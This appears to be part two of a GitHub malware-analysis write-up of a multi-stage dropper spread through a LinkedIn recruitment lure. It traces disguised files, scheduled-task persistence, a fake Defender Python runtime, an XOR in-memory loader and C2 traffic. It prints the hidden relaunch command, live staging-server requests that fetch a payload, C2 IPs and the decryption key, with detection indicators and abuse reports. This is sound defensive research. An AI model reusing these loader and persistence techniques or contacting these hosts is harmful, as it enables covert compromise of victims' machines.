# Linkedin Recruitment Lure Investigation 
## Part 2 – Dynamic Analysis & Payload Behaviour

Date: 25th April 2026

---

## Executive Summary

This part of the investigation focuses on what actually happens when 'Position Details and Compensation Policy For Emp.EXE' is executed in a controlled live enviroment.

In the first write-up, I looked at how the file was delivered and what it looked like statically. From the information i gathered in my static analysis, i knew this was more than a simple phishing attempt, but i was surprised how sophisticated this malware turned out to be the more I pulled the thread.

After running it in a lab, it turned out to be a very stealthy, complex structure.

Instead of one obvious payload, this is a **multi-stage setup** using:

- disguised files  
- a batch script to control execution - a password-protected archive  
- and a bundled, complete Python environment running under a fake system process name
- persistent C2 communication 

---

## Introduction

In my initial investigation into this Linkedin recruitment lure, I focused on the delivery chain and file structure without executing the payload.

At that point, my thinking was that the main activity would probably come from one of the DLLs in the package, maybe through sideloading.

That wasn’t completely wrong, but it didn’t explain everything.

To get a clearer picture, I moved into a lab and looked at what actually happens when the file is run.

## Tools Used

- Windows 10 VM
- Process Explorer   
- Burp Suite
- WireShark
- Kali Linux VM for file analysis
- Cyberchef

---

## Initial Execution – First Impressions

When the file is executed, a document opens straight away:

The aim of this document is to convince the user they have opened a legitimate document and distract them from what is going on in the background... However, the document was a 'Google Ads Playbook', not what the user would expect after clicking a link for 'Complete Information about the job and products'. This struck me as sloppy at first, likely just lazy reuse of the decoy document...

But at that point of the attack, it didnt matter. Delivery of the payload had already begun silently in the background with no GUI, warning or confirmation check. It was completely invisible unless running procexp.

While the process was running I noticed `zhen.mkv`, a file I had seen earlier but, at that point, I had assumed was just a decoy video file based on the extension.  
However, it turned out to be a RAR archive, and once executed it began triggering the loading of multiple DLLs in the background.



The process ended with a file named MpEng.exe, which at first glance looked like Microsoft Defender, but the company name of Python Software Foundation made it clear that wasn't the case. 



It became clear this process wasn’t actually Defender at all, but a Python-based runtime executing scripts in the background.

---

## Going Back to the Files

I went back to the extracted files and noticed something I’d missed earlier. The files I thought were just decoys in my earlier investigation were hidden in a `_` folder:



I’d already seen that `zhen.mkv` wasn’t what it appeared to be, so finding these files grouped together made it clear they weren’t random decoys, they were part of the actual execution chain.

---

## File Types

Checking the real file types changed everything:

- `.mkv` → executable  
- `.pdf` → archive  
- `Deju` → batch script  

This is where it became clearer what was happening.

---

## zhen.mkv 

This is actually a renamed **WinRAR command line tool**.

So not the payload itself, but something used to unpack it.

---

## TAIWAN.pdf 



Despite the name, this isn’t a PDF. It’s a password-protected archive.

---

## Deju 

This file is the key component in delivering the payload.

It:

- executes the WordPad document
- executes zhen.mkv
- extracts `TAIWAN.pdf`  
- includes the password  
- sets a flag `co=sunset`
- creates a scheduled task "Windows Update Check" which runs 'WinUpdate.bat' every 10 minutes

This ties everything together, Deju isn’t just another file in the archive, it’s the component orchestrating the entire execution flow.

---

I used the password to unpack Taiwan.pdf
It contains a large number of files rather than one obvious payload.

Those files were:

- a full Python environment  
- standard libraries  
- compiled modules  
- **MpEng.exe** and **update.dll**

 

---

At this point, it appears there is no single payload, instead multiple staged components deliver it, executed by `MpEng` which masquerades as Windows Defender while running a Python-based enviroment. 

---

## Persistence 

After seeing that Deju had created a "WinUpdate" scheduled task, I checked Task Scheduler Library and confirmed that the created task is designed to run 'WinUpdate.bat' every 10 minutes indefinitely.

**The system is now persistently compromised at user level**

### WinUpdate.bat Behaviour

Inspecting the contents of `WinUpdate.bat` revealed the following command:

    start "" /min conhost.exe --headless "C:\Users\Ray Zah\AppData\Local\Microsoft\WindowsApps\MpEng.exe" "C:\Users\Ray Zah\AppData\Local\Microsoft\WindowsApps\update.dll" sunset

This shows that the scheduled task is not performing network activity directly, but instead re-launching the payload in a hidden state.

The use of `conhost.exe --headless` ensures that execution occurs without any visible window, reducing the likelihood of user detection.

`MpEng.exe`, previously identified as a disguised Python runtime, is used to execute `update.dll`, which likely contains the core payload logic.

The additional argument `sunset`(seen in Deju) suggests that execution may be controlled via parameters, potentially allowing different behaviours or modes.

This suggests that the scheduled task is responsible for maintaining persistent, hidden execution of the payload.

---

## Analysis of MpEng.exe

The file `MpEng.exe` initially appeared to be a legitimate Windows Defender process based on its name. However, a closer look showed that this was not the case.

Basic inspection revealed:

- PE32 executable (32-bit)
- References to Python runtime components
- Dependency on `python310.dll`
- Multiple Microsoft C runtime libraries (`VCRUNTIME140.dll`, etc.)

Notably, the following strings were identified:

- `Py_Main`
- `python310.dll`
- `Python Software Foundation`

**Assessment:**

Despite its name, `MpEng.exe` is not a legitimate Defender binary. Instead, it appears to be a **Python-based executable wrapper**, likely packaged using a tool such as PyInstaller.

This allows the attacker to:

- Package Python scripts as standalone executables  
- Avoid requiring Python to be installed on the victim system  
- Execute more complex logic while appearing as a normal Windows process  

The naming (`MpEng.exe`) is likely an attempt to blend in with legitimate system processes and avoid suspicion.

---

## Analysis of update.dll

The file `update.dll` was initially assumed to be a standard DLL. However, this quickly proved to be misleading.

Basic inspection showed:

- File type: ASCII text  
- No valid PE/DLL structure  
- Contains readable Python code  

This indicates the file is **not a real DLL**, but instead a Python script disguised with a `.dll` extension.

---

### Decryption Routine

The script contains a simple XOR-based decryption routine:

This function loops through the encrypted data and applies a repeating XOR key to recover the original payload.

Key observations:

- XOR key: `ditmechina`  
- Target file: `support.ico`  
- File is read from the same directory as the executable  

---

### Execution Mechanism

The script dynamically constructs and executes Python code rather than calling it directly:

Once resolved, this effectively runs:

- `exec(decrypted_payload)`

This means the decrypted payload is executed directly in memory, without being written to disk.

---

### Behaviour Summary

`update.dll` acts as a **loader stage** within the malware chain:

1. Locates `support.ico`  
2. Decrypts it using XOR (`ditmechina`)  
3. Executes the result in memory  

This technique provides:

- Obfuscation (payload hidden in a non-obvious file)  
- Evasion (no clear malicious code on disk until runtime)  
- Flexibility (payload can be updated independently)  

---

### Overall Assessment

This stage confirms the malware uses a **multi-layer execution chain**:

- Disguised executable (`MpEng.exe`)  
- Fake DLL loader (`update.dll`)  
- Encrypted payload (`support.ico`)  
- In-memory execution (`exec()`)  

This is not a basic script or simple dropper. The structure suggests deliberate design to evade detection and complicate analysis.

---

## Network Activity (Burp)

Initial network monitoring was conducted using Burp Suite with traffic proxied from the analysis VM.

No proxy-aware HTTP/HTTPS traffic attributable to the payload was observed during:

- Initial execution of the lure
- Subsequent execution via the scheduled task (WinUpdate.bat)

 

The limited traffic captured appeared consistent with standard Windows behaviour, including SmartScreen and trust validation requests to Microsoft domains such as:

`checkappexec.microsoft.com`
`ctldl.windowsupdate.com`

No evidence of command-and-control (C2) communication or suspicious outbound HTTP/HTTPS requests was identified within the proxy-monitored traffic.

Since no proxy-aware traffic was observed, further packet-level inspection was required to determine whether the payload communicated using non-proxied or non-HTTP protocols.

---

## Wireshark Analysis

I needed to look deeper to identify whether there is command-and-control (C2) communication that isn't visible through the proxy.

I reverted to a pre-infection snapshot of my VM for a clean baseline, set Wireshark to capture, and opened the `Position Details and Compensation Policy For Emp.EXE` again.

Following execution, network activity was immediately observed. Within seconds, the system initiated multiple outbound connections, the first of which was a connection to a Telegram IP. 

  

---

### Network Activity Summary 

- Connections made to multiple external IP addresses  
- Mix of:
  - TCP  
  - DNS queries  
- Packets of data exchanged between host and external IPs  
- Behaviour consistent with:
  - automated communication  
  - payload retrieval  
  - staged execution  

---

### Telegram Infrastructure Contact

DNS query observed:

- `t.me` → `149.154.167.99`

Followed by:

- TLS handshake (Client Hello → Server Hello)  
- Encrypted communication established  

**Assessment:**
This indicates early-stage communication with Telegram infrastructure. Given the timing (immediately after execution), this may be used for signalling, notification, or as part of a broader communication mechanism.

---

### Suspicious HTTP C2 Communication

Primary suspicious host identified:

- `172.86.89.235` (port 80)

#### Initial Request

    GET /getPage?id=sunset HTTP/1.1
    Host: 172.86.89.235
    User-Agent: python-requests/2.33.0

**Key detail:**

- The `python-requests` user-agent strongly indicates scripted or programmatic communication embedded within the malware.

---

### C2 Response (Stage Trigger)

Server response:

    HTTP/1.1 200 OK

Returns:

    http://172.86.89.235/links/sunset.txt



**Assessment:**
- This endpoint acts as a tasking or redirect layer  
- Confirms a staged delivery mechanism  

---

### Payload Retrieval

Second request observed:

    GET /links/sunset.txt HTTP/1.1

Response:

- `Content-Type: text/plain`  
- Large encoded payload returned  

This traffic confirms a **multi-stage C2 workflow**:

1. Initial execution  
2. Contact C2 endpoint (`/getPage`)  
3. Receive next-stage instruction  
4. Retrieve encoded payload (`/sunset.txt`)  
5. Execute decoded content locally  

This behaviour is consistent with:

- loader-style malware  
- staged payload delivery systems  
- evasion through delayed execution  

---

## Secondary C2 Communication (15.235.156.143)

After initial payload retrieval from `172.86.89.235`, the system establishes a sustained connection to `15.235.156.143`.

Unlike the initial request/response pattern, this connection persists over time, with continuous TLS traffic observed.

 

The connection remained active throughout 40 minutes of observation, including multiple scheduled task intervals.

  
  

No further significant outbound communication to new external IPs was observed during this period. Instead, the system maintained a consistent encrypted session with `15.235.156.143`.

This suggests a clear transition from:

- initial payload delivery (`172.86.89.235`)  
- to persistent command-and-control communication (`15.235.156.143`)  

---

## Conversation Summary 

The conversation summary after 40 minutes of observation shows a sustained connection with `15.235.156.143`, with continuous packet exchange over time.

---

### Overall Assessment

The observed network behaviour demonstrates a structured execution flow:

1. Immediate outbound communication following execution  
2. Initial contact with Telegram infrastructure  
3. Retrieval of staged payload from HTTP-based C2 (`172.86.89.235`)  
4. Transition to persistent encrypted communication with a secondary host (`15.235.156.143`)  

This pattern is consistent with a multi-stage malware architecture, where:

- an initial server delivers payload or instructions  
- a secondary server maintains ongoing command-and-control communication  

The use of programmatic HTTP requests, obfuscated payload delivery, and sustained TLS traffic strongly supports the conclusion that the system establishes an active and persistent C2 channel following execution.

## Analysis of Sunset.txt

The response from /links/sunset.txt contained what looked like obsfucated Python and a large obfuscated blob.
Initial inspection suggested Base64 encoding. 

 

I used Cyberchef to decode it from Base64 but it was still unreadable. Using the Detect File Type operation, I saw it was bzip2, so I decompressed it. 
It now showed as a deflated zlib file so I used zlib inflate.

The output was still in the most part unreadable, but I noticed 'HELLO COMPILER'... The developer was trolling. 
I saved the data file and used my terminal in Kali to pull the strings... 



- **Dynamic Python execution**
  - `getattr`, `__import__`, `lambda`, `map`, `join`, `chr`
  
  This suggests the code is building and executing things at runtime rather than storing them clearly.

- **Built-in decoding**
  - `base64`, `b64decoder`, `zlib`, `bytearray`
  
  So the payload is likely decoding even more data during execution.

- **System-level access**
  - `ctypes`, `WinDLL`, `System.Reflection`
  
  This means it can interact directly with Windows APIs, not just run simple scripts.

- **File handling**
  - `open`, `read`, `write`, `path`, `executable`
  
  So it can read/write files and manage its own execution environment.

- **Weird encoded strings**
  - e.g. `N$u@B.D@W.P@R`
  
  These don’t look random — likely more obfuscated data such as commands, URLs, or keys.

---

At this point, it looks like the blob isn’t just a script, but a **compiled or serialised Python payload** (likely marshalled bytecode).

Combined with what I saw in Wireshark:

- `/getPage?id=sunset` returns a link  
- `/links/sunset.txt` delivers this payload

- further communication and data transer with a second IP

This confirms a **multi-stage setup**, where:

1. The initial request gets instructions  
2. A second request pulls down the payload  
3. The payload then handles decoding and execution itself
4. The payload is then monitored and updated via persistent C2 connection 

This kind of setup makes analysis harder and allows the attacker to change behaviour without changing the initial file.

---

## IP Infrastructure Analysis

### Telegram Infrastructure (149.154.167.99)

 

Analysis of network traffic identified outbound connections to `149.154.167.99`, which resolves to Telegram infrastructure (ASN: AS62041 – Telegram Messenger Inc).

- Legitimate service (Telegram Messenger network)
- Located in the Netherlands
- Used as a communication or signalling channel by the malware

**Assessment:**
This IP is not inherently malicious but is being leveraged as part of the malware’s communication flow, indicating potential abuse of a legitimate platform.

---

### Command & Control Server (172.86.89.235)

Further investigation identified `172.86.89.235` as the primary suspicious host involved in payload delivery.

- Hosting provider: RouterHosting LLC (Cloudzy)
- Location: Dallas, Texas, US
- Static VPS hostname: `235.89.86.172.static.cloudzy.com`
- Active HTTP service observed

**Observed behaviour:**
- Responds to `GET /getPage?id=sunset`
- Returns a secondary resource (`/links/sunset.txt`)
- Serves encoded payload content consistent with staged malware delivery

**Assessment:**
This host is functioning as an active command-and-control (C2) or staging server, delivering encoded payloads to the infected system via scripted HTTP requests.

---

### Persistent C2 Server (15.235.156.143)

The IP is hosted by OVH in Singapore within a reassigned VPS range, indicating rented infrastructure rather than a dedicated or enterprise system.

Unlike the initial staging server (172.86.89.235), this host did not serve any visible web content and did not respond to HTTP requests on ports 80 or 443, suggesting it is not intended for general web access.

A targeted port scan revealed:

- Port 56001/tcp – open
- Ports 80 and 443 – filtered (no response)



Attempts to interact over HTTP resulted in timeouts, reinforcing that this system is not operating as a traditional web server.

Direct interaction with port 56001 using OpenSSL confirmed the presence of a TLS service:

- Self-signed certificate
- Randomised common name (`Pzyzvzapjmw`)
- Extremely long validity period (extending to 2090)

These characteristics are not typical of legitimate services and are consistent with deliberately configured encrypted communication channels.

More importantly, extended Wireshark capture showed that after initial payload retrieval from 172.86.89.235, the infected system establishes and maintains a continuous TLS session with this host.

This behaviour differs from simple beaconing or one-off requests and instead indicates sustained communication over time.

Taken together, this strongly suggests a separation of roles within the infrastructure:

- `172.86.89.235` acting as a staging / payload delivery server  
- `15.235.156.143` acting as a persistent command-and-control (C2) endpoint  

The use of a non-standard port, custom TLS configuration, and long-lived encrypted session indicates this host is likely responsible for ongoing tasking, control, or data exchange between the infected system and the attacker.

---

## Execution Flow

(will add mermaid diagram)

---

## Malware Analysis Conclusion 

(to be updated)

---

## Level of Impact

(to be updated)

---

## Indicators of Compromise (IOCs)

Based on this analysis, the following indicators may be useful for detection or further investigation:

**Files / Paths**
- `C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\MpEng.exe` (fake Defender process)
- `C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\update.dll`
- `C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\WinUpdate.bat`

**Persistence**
- Scheduled Task:
  - Name: `Windows Update Check`
  - Action: `WinUpdate.bat`
  - Trigger: every 10 minutes

**Execution Behaviour**
- Use of:
  - `conhost.exe --headless`
- Hidden/minimised execution via:
  - `start "" /min`

**Disguised Components**
- `.mkv` file acting as executable (WinRAR CLI)
- `.pdf` file acting as password-protected archive
- Batch script (`Deju`) orchestrating extraction and execution

## Hash List (to be updated)

**Primary Payload Zip Package**

*f689830f201ed1612bfda4bb48e9dfba4bde9d2c4abc724f6e9f95060797e739*

**Position Details and Compensation Policy For Emp. EXE**

**Zhen.mkv**

**TAIWAN.pdf**

**Deju**

**sunset.txt**

**MpEng.exe** 

**update.dll**

**support.ico**

---

### Reporting

Based on the confirmed malicious behaviour and supporting network evidence, this infrastructure was reported to the relevant providers:

- Telegram (abuse@telegram.org) – for potential platform abuse
- RouterHosting / Cloudzy (abuse-reports@cloudzy.com) – for active malware hosting
- OVH (noc@ovh.net) - for active malware hosting
  
The report included supporting evidence from network captures, HTTP requests, and payload analysis to assist with investigation and potential takedown.

All hashed files have also been uploaded to VirusTotal and MalwareBazaar for public awareness.

---

## Final Thoughts

(to be updated)

---

## Original Investigation:

<https://github.com/Rayza-Slyce/Linkedin_Recruitment_Lure_Investigation_Pt1_Static_Analysis>
